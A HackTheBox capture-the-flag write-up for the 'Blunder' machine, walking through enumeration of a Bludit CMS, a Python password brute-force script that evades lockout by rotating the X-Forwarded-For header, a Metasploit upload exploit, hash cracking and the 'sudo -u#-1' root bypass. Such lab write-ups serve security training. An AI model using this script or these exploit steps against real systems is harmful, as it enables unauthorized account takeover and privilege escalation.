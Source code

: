 ```yaml
---
title: Blunder Writeup - HackTheBox
author: Sujit Suryawanshi
date: 2020-07-29 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, blunder]
---
```


<h2 data-toc-skip>Writeup of Blunder Machine (HackTheBox)</h2>


![Desktop View]({{ "/assets/img/blunder-main.png" | relative_url }})

Blunder machine released on 30 May 2020 on HackTheBox platform and created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858).
It's nice machine which hosted CMS named Bludit. So let's move forward and p4wn this awesome box.

---

<h3 data-toc-skip>Starting with Nmap</h3>

#### sudo nmap -sV -sC -T4 -p- 10.10.10.191

![Desktop View]({{ "/assets/img/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -p- for All Ports and -T4 for Timing. As you can see there are two ports open that is port 21 and 80. Port 21 was ftp but closed and port 80 has hosted webserver which has Apache httpd 2.4.41 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.



After opening the the website in browser we found that it was using Bludit CMS.

![Desktop View]({{ "/assets/img/blunder-cms.png" | relative_url }})

Continuing to enumeration we started fuzzing the web directory using ffuf tool.


![Desktop View]({{ "/assets/img/blunder-ffuf.png" | relative_url }})

After doing some web fuzzing, We found admin panel of Bludit CMS hosted on url <http://10.10.10.191/admin/>

![Desktop View]({{ "/assets/img/blunder-cms-admin.png" | relative_url }})

As we don't know the username and password of this admin panel, We continued fuzzing on website using ffuf and some common extensions like php, txt etc.

![Desktop View]({{ "/assets/img/blunder-ffuf-1.png" | relative_url }})

After some fuzzing we got one todo.txt file hosted on webserver which has one note "Inform fergus that the new blog needs images - PENDING"

So here we got the one of the user's username that is "fergus"

We found the user but we don't know the password so, For password we used one tool called "CeWl".

So basically what this tool does, It generates wordlist from any url/webpage.
In our case, We used this tool on webpase and generated wordlist.

cewl http://10.10.10.191/

![Desktop View]({{ "/assets/img/blunder-cewl.png" | relative_url }})

Nice, CeWl generated more than 300 passwords.
Now we have username and wordlist of passwords, Let's move forward.

After doing some google about Bludit CMS, We found that Bludit CMS was vulnerable for password bruteforce attack.

Checking one [issue](https://github.com/bludit/bludit/pull/1090) on Github about Bludit, We got one python script to bruteforce the password.

To bruteforce the password We needed to modify the script.

```python
#!/usr/bin/env python3
import re
import requests
#from future import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/home/sujit/Desktop/HTB/Blunder/pass.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

In above code, I used pass.txt file as wordlist and username as "fergus"

![Desktop View]({{ "/assets/img/blunder-bruteforce-1.png" | relative_url }})

After bruteforce, We got the password of user "fergus" as "RolandDeschain"

![Desktop View]({{ "/assets/img/blunder-bruteforce-2.png" | relative_url }})

Now we have both username and password.
Let's login with username as “fergus” and password as  “RolandDeschain”

![Desktop View]({{ "/assets/img/blunder-bludit-login.png" | relative_url }})

We successfully logged in into Bludit CMS.
After some Google, I found that there is file upload vulnerability available for Bludit CMS and also there is metasploit module available for the same.

Name of the Metasploit module : linux/http/bludit_upload_images_exec

Lets fire up metasploit and use the above exploit.

We need to set some required data (option) for this exploit.

![Desktop View]({{ "/assets/img/blunder-metasploit.png" | relative_url }})

Here I set BLUIDITPASS, BLUIDITUSER, RHOSTS, LHOST options respectively to exploit the vulnerability.

After setting up options I ran exploit command to run the exploit and voila!!!, We got initial shell..

![Desktop View]({{ "/assets/img/blunder-metasploit-1.png" | relative_url }})

Now let's start enumeration to get user.

While doing enumeration, I checked some documentation of Bludit CMS in which I found that the CMS had database folder.

![Desktop View]({{ "/assets/img/blunder-cms-structure.png" | relative_url }})

In this database folder I got one PHP file named users.php which contains password hash of another user “hugo”

![Desktop View]({{ "/assets/img/blunder-password-hash.png" | relative_url }})

After using online password cracker, I got "Password120" as password for user “hugo”

![Desktop View]({{ "/assets/img/blunder-password-hash-1.png" | relative_url }})

After login using above password I was able to get user successfully.

![Desktop View]({{ "/assets/img/blunder-user.png" | relative_url }})

Here we got user.txt.
Now it's time for Privilage Escalation.

I ran sudo -l to list out what is allowed to run as sudo without password

![Desktop View]({{ "/assets/img/blunder-privesc.png" | relative_url }})

Here the user was allowed to run /bin/bash without password.

I used sudo -u#-1 bash command to get into root.

The above command will trigger -1 user which is not there so we will get a root shell directly.

You'll get more information about this PrivEsc vulnerability [here](https://www.sudo.ws/alerts/minus_1_uid.html).

![Desktop View]({{ "/assets/img/blunder-root.png" | relative_url }})

And here we rooted Blunder successfully.

Thanks for reading this writeup and all suggestions are welcome.
